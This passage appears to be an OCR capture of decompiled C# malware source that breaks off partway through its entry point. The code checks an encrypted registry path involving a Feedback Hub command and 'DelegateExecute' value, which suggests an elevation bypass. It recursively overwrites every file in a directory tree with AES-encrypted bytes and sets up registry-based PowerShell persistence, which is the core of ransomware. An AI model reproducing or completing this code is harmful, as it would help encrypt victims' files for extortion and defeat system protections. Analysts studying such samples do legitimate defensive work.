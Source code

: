 ```c#

	// Token: 0x06000019 RID: 25 RVA: 0x00002430 File Offset: 0x00000630
	private static bool IsRegistryKeySet()
	{
		bool flag = false;
		ValueTuple<string, string> valueTuple = AESKeyGenerator.RetrieveAESKey();
		string item = valueTuple.Item1;
		string item2 = valueTuple.Item2;
		RegistryKey registryKey = Registry.ClassesRoot.OpenSubKey(AESKeyGenerator.Decrypt(Config.AppID, Config.AesKey, Config.AesIV) ?? "");
		string text = registryKey.GetSubKeyNames()[0];
		registryKey.Close();
		string text2 = AESKeyGenerator.Decrypt(Config.FeedbackHubCommand, Config.AesKey, Config.AesIV);
		string text3 = text2.Replace("{appId}", text);
		RegistryKey registryKey2 = Registry.CurrentUser.OpenSubKey(text3);
		string[] valueNames = registryKey2.GetValueNames();
		foreach (string text4 in valueNames)
		{
			bool flag2 = text4 == "DelegateExecute";
			flag = !flag2;
		}
		registryKey2.Close();
		return flag;
	}

	// Token: 0x0600001A RID: 26 RVA: 0x00002514 File Offset: 0x00000714
	private static void EncryptFilesInDirectory(string directoryPath, string aesKey, string aesIV)
	{
		bool flag = !Directory.Exists(directoryPath);
		if (!flag)
		{
			foreach (string text in Directory.GetFiles(directoryPath))
			{
				try
				{
					byte[] array = File.ReadAllBytes(text);
					byte[] array2 = AESKeyGenerator.Encrypt(array, aesKey, aesIV);
					File.WriteAllBytes(text, array2);
				}
				catch (Exception ex)
				{
					Console.WriteLine("Error encrypting file " + text + ": " + ex.Message);
				}
			}
			foreach (string text2 in Directory.GetDirectories(directoryPath))
			{
				Program.EncryptFilesInDirectory(text2, aesKey, aesIV);
			}
		}
	}

	// Token: 0x0600001B RID: 27 RVA: 0x000025D4 File Offset: 0x000007D4
	private static void Main(string[] args)
	{
		bool flag = !Program.IsRegistryKeySet();
		if (flag)
		{
			AESKeyGenerator.GenerateAndStoreAESKey();
			Persistence.SetRegistryForPowerShellPersistence();
		}
		ValueTuple<string, string> valueTuple = AESKeyGenerator.RetrieveAESKey();
		string item = valueTuple.Item1;
```